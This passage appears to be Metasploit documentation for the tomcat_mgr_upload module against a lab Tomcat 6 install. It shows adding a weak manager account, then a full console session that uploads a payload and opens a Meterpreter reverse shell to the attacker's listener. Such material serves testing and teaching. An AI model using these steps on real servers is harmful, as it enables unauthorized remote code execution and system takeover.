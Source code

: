 The install was default, other than adding a user during install.  No other options were changed.  The install assgined the new user the role `manager-gui`, which is Tomcat 7+ syntax.
For this exploitation, it was changed to simply `manager`.

#### Exploitation

1. Edit `C:\Program Files\Apache Software Foundation\Tomcat 6.0\tomcat-users.xml` to add the following under the `<tomcat-users>` line:

    ```
    <role rolename="manager"/>
    <user username="tomcat" password="tomcat" roles="manager"/>
    ```

2. Restart Tomcat service

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set rport 8086
    rport => 8086
    msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.108
    rhost => 192.168.2.108
    msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_upload) > check
    [*] 192.168.2.108:8086 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_upload) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Retrieving session ID and CSRF token...
    [*] Uploading and deploying ZyCAK8R6vkZdD7d8n5fiLOpXEfPsq7...
    [*] Executing ZyCAK8R6vkZdD7d8n5fiLOpXEfPsq7...
    [*] Undeploying ZyCAK8R6vkZdD7d8n5fiLOpXEfPsq7 ...
    [*] Sending stage (49409 bytes) to 192.168.2.108
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.108:3387) at 2017-01-15 19:18:14 -0500
    
    meterpreter > sysinfo
    Computer    : winxp
    OS          : Windows XP 5.1 (x86)
    Meterpreter : java/windows
    ```

### Tomcat 7 (7.0.73)
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  The `manager-gui` permission is required for this exploit.
